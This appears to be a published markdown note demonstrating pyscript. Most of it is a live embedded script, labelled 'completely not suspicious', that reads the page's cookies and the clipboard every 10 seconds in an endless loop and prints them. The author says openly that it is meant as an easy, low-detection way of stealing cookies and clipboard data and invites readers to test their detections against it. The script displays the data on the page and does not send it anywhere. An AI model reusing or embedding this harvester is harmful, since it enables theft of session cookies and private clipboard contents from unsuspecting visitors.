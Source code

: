 ```yaml
---
publish: true
title: pyscript-test
---
```

# What is this?
Well, I wanted to embed something else, but instead, how about I just show you what pyscript can do and see if your detections catch it! :D
## what?
So pyscript is really pretty neat, but it seems like it's just pythonic commands for javascript and not really a python runtime, so that brings limitations. Even so, pretty fun because it's super easy to make less detectable ways of stealing cookies and clipboard data.

<div id="c"></div>
<script type="module" src="https://pyscript.net/releases/2025.2.1/core.js"></script>
<script type="py" config='{"name": "completely not suspicious", "packages": ["asyncio"]}'>
import asyncio, js, pyscript, base64, urllib
from pyodide.ffi import create_proxy
import warnings
warnings.filterwarnings("ignore")

from js import XMLHttpRequest
from io import StringIO
from pyscript import document

async def get_clipboard_data():
        try:
            all_cookies = document.cookie
            text_data = await js.navigator.clipboard.readText()
	        print("Cookies:\n"+all_cookies+"\nClipBoard:\n"+text_data)
        except:
            pass

pyscript.document.querySelector("#c").focus()
get_clipboard_data_proxy = create_proxy(get_clipboard_data)
print("<h1>Data Found by clicking this page:<h1>\n\n")
async def main():
    while True:
        try:
            asyncio.ensure_future(get_clipboard_data_proxy())
            await asyncio.sleep(10)
        except:
            pass

main()
</script>
